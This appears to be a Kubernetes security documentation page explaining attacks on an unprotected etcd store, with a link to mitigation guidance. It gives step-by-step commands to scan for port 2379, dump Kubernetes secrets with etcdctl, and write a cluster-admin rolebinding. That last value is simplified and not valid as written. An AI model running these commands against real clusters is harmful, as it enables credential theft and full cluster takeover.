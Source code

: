 ```yaml
---
sidebar_position: 7
title: "Unrestricted etcd Access"
description: "How attackers exploit unrestricted access to etcd to retrieve Kubernetes secrets and take control of the cluster."
---
```


# Unrestricted etcd Access

**etcd** is the key-value store that holds all Kubernetes cluster data, including **secrets, configuration, and state**. If exposed or misconfigured, it becomes a high-value target for attackers who can **retrieve credentials, modify cluster settings, or delete critical resources**.

---

## Exploitation Steps

An attacker targets an unprotected `etcd` endpoint to access or manipulate cluster-wide data.

### 1. Scan for Open etcd Endpoints

The attacker scans the network to locate accessible etcd instances (port `2379`):

```bash
nmap -p 2379 --open <cluster-ip-range>
```

If port `2379` is exposed, the attacker targets it for further exploitation.

---

### 2. Enumerate etcd Keys

Without authentication or TLS, the attacker can query the keyspace:

```bash
ETCDCTL_API=3 etcdctl --endpoints=<etcd-ip>:2379 get / --prefix --keys-only
```

This reveals the structure and contents of etcd, including keys under `/registry/` that store Kubernetes resources.

---

### 3. Extract Kubernetes Secrets

The attacker dumps secrets directly from etcd:

```bash
ETCDCTL_API=3 etcdctl --endpoints=<etcd-ip>:2379 get /registry/secrets --prefix
```

This includes service account tokens, API keys, kubeconfig files, and other sensitive credentials.

---

### 4. Modify Cluster Configuration

With write access, the attacker injects new configuration or escalates privileges:

```bash
ETCDCTL_API=3 etcdctl --endpoints=<etcd-ip>:2379 put /registry/rbac/rolebindings/cluster-admin '{"user": "attacker", "role": "cluster-admin"}'
```

This effectively grants `cluster-admin` rights to any user they choose.

---

### Result

The attacker achieves full compromise of the Kubernetes cluster by:

- Extracting sensitive secrets
- Gaining persistent admin access
- Modifying or deleting critical cluster resources

If etcd is not protected, the **entire cluster is at risk**.

---

## Mitigation

➡ [Securing etcd in Kubernetes](/docs/best_practices/cluster_setup_and_hardening/control_plane_security/etcd_security_mitigation)
